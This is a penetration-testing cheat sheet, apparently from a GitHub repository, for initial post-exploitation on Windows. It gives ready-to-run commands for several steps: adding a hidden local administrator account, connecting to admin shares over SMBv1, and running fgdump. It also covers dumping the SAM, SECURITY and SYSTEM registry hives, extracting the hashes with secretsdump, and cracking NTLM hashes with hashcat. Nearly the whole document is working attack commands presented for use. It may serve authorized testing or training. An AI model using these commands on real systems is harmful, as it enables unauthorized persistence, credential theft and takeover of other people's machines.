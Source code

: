 # Windows Initial


## Add new admin
```
net user /add newuser newpassword
net localgroup administrators newuser /add

smbclient \\\\IP_ADDRESS\\ADMIN[OR C]$ --option='client min protocol=NT1' -U newuser

```
## fgdump.exe
```
fgdump.exe
```

## copy Hashes & crack NTLM LM
```
reg.exe save hklm\sam c:\windows\temp\sam.save
reg.exe save hklm\security c:\windows\temp\security.save
reg.exe save hklm\system c:\windows\temp\system.save
sudo python3 /opt/impacket/examples/secretsdump.py -sam ~/sam.save -security ~/security.save -system ~/system.save LOCAL
sudo hashcat --username --show -m 1000 -a 0 lmhash_nthash.txt /opt/seclists/Passwords/Cracked-Hashes/wordlist.txt -r 0 -r /usr/share/hashcat/rules/choiceof.rule

```
#### Current User
```
whoami /all
```
#### On older machines, whoami might not be available so to find out the current user try the following:
```
echo %username%
```
#### All Users
```
net user
```
#### Add User
```
net user hacker hack3d /add
```
#### Make User Admin
```
net localgroup administrators hacker/add
```
#### Remove User
```
net user hacker /del
```
#### Files
```
type %SYSTEMDRIVE%\boot.ini
type %WINDIR%\win.ini
type %WINDIR%\System32\drivers\etc\hosts
```
#### Files to Pull
```
%SYSTEMDRIVE%\pagefile.sys
```